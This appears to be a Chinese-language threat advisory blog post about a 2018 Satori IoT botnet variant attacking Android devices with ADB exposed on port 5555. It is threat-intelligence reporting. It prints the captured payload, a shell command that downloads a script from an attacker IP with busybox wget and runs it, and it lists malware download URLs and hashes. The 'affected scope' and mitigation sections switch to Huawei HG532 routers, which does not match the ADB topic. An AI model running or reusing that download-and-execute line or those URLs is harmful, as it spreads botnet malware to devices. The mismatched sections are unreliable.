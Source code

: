 ```yaml
---
layout:     post
title:      最新Satori IoT僵尸网络变种针对ADB服务设备进行攻击通报
subtitle:   ADB服务
date: 2018-08-20
author:     shenzhen_antiylabs
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# 最新Satori IoT僵尸网络变种针对ADB服务设备进行攻击通报

## 概述

adb是android sdk里的一个工具，用这个工具可以直接操作管理android模拟器或者真实的android设备(包括一些IOT设备).，它的主要功能有:

\* 运行设备的shell(命令行)

\* 管理模拟器或设备的端口映射

\* 计算机和设备之间上传/下载文件

\* 将本地APK软件安装至模拟器或android设备

攻击手段回顾：

6月份Satori IoT僵尸网络利用D-Link DSL-2750B路由器的RCE（远程执行代码）漏洞，下载站点为95.215.62.169

7月份，安天蜜网监测到新的利用方式，并捕获最新样本，下载站点和此前一致，目前反病毒产品尚未检出，经过分析，我们认为它是新的Satori IoT僵尸网络变种，针对基于adb服务设备的新一轮利用，具体分析如下：

## 漏洞描述

安卓设备的adb远程调试接口5555端口暴露在公网，其中一部分是电视盒，但其他设备尚未确定，有可能是其他使用安卓系统的网络设备。

## 捕获载荷

```
  OPEN............]+......shell:>/sdcard/Download/f && cd /sdcard/Download/; >/dev/f && cd /dev/;busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs.

CNXN............2.......host::.OPEN............]+......shell:>/sdcard/Download/f&& cd /sdcard/Download/; >/dev/f && cd /dev/; busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs.

Adbs文件内容如下：
 
```

![adbs](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/adb.jpg)



## 	攻击IP及URL

http://118.193.233.8:4780/dd-wrtlei

http://118.193.233.8:4780/linux2.4lei

http://118.193.233.8:4780/linux2.6lei

http://118.193.233.8:4780/linux-armlei

http://118.193.233.8:4780/linux-mipslei

http://118.193.233.8:4780/immm.exe

## 样本



| 文件名 | 病毒家族 | Hash |
| ------ | -------- | ---- |
|        |          |      |

| dd-wrtlei                 | Trojan[Backdoor]/Linux.Dofloo  | 411327ac98f156a446df3556bb29a05a |
| ------------------------- | ------------------------------ | -------------------------------- |
| Linux2.4lei               | Trojan[Backdoor]/Linux.Dofloo  | 148e9ea2bf1a6e873baec19130b52050 |
| Linux2.6lei               | Trojan[Backdoor]/Linux.Dofloo  | aeffdae8ccb7c86d3868369781b70e14 |
| linux-armlei              | Trojan[Backdoor]/Linux.Dofloo  | 62ef30a8fa91297c2657bc34c3824075 |
| linux-mipslei             | Trojan[Backdoor]/Linux.Dofloo  | d40086b072a5d66d590ecfc18d758618 |
| immm.exe                  | Trojan[DDoS]/Win32.Nitol       | b3ff1a7a453756532ba7dcf1da7f310e |
| 2.txt                     | 存在CVE-2017-17215漏洞的IP列表 |                                  |
| 2018年4月最新内核3306.zip | 3306爆破工具                   |                                  |
| Zeroshell.zar             | 传马工具                       |                                  |

  

## 受影响范围



华为HG532路由器





## 修复及防护建议



2017年11月30日，华为官方发布了安全公告，确认了该漏洞。 公告中提到了以下漏洞缓解措施：

- 配置路由器内置的防火墙
- 更改路由器默认密码
- 在路由器外部署防火墙
- 升级到最新固件



## 参考资料



[1]     华为安全公告

http://www.huawei.com/en/psirt/security-notices/huawei-sn-20171130-01-hg532-en

[2]     Check Point 漏洞报告

https://research.checkpoint.com/good-zero-day-skiddie/
